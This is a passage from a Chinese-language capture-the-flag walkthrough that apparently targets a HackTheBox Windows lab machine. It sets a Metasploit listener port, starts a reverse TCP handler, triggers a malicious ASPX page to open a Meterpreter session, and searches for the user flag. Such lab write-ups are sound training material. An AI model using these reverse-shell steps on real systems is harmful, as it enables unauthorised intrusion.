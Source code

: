 最后是 LPORT

```
set lport 4444
```

如果我们现在检查选项，我们应该看到一切都设置好了

![Screenshot-2019-08-06-at-23.54.42](img/fd61f9427dbc8da931609edd85f4cd4b.png)

让我们运行漏洞。

该消息出现后

```
Started reverse TCP handler on 10.10.14.15:4444
```

返回浏览器并访问托管恶意脚本的页面

```
http://10.10.10.5/devel.aspx
```

然后，您应该会看到创建了一个 Meterpreter 会话

![Screenshot-2019-08-06-at-23.54.51](img/6da4fdda8d6bf27b9d4ce1b64180675a.png)

现在我有了一个会话，我尝试在 meterpreter 上使用以下命令查找第一个标志 user.txt

```
search -f user.txt
```

没有与我的搜索匹配的文件。我试着。*查看其他文件，但没什么有用的

![Screenshot-2019-08-07-at-00.01.41](img/5e2b21a8757f6bde4bcd57b55e26e3f4.png)
